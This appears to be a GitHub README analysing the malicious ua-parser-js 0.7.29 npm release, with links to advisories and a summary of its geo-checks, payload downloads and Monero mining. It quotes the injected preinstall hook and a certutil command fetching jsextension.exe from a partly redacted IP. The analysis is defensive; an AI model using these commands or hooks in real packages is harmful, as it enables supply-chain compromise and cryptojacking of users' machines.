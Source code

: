 # ua-parser-vuln

## Data Sources:

Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945

Virustotal: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/behavior/C2AE

CISA Announcement: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js

Advisory: https://github.com/advisories/GHSA-pjwm-rvh2-c87w

Therecord: https://therecord.media/malware-found-in-npm-package-with-millions-of-weekly-downloads/

## Brief overview
Package.json file has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added,  calls the new attack scripts.

File preinstall.js looks to determine Windows, mac, linux, and call the correct next file

### Linux
On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing. 
Else, it pulls down  jsextention from a remote IP in the Latvia GEO

### Windows:
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****

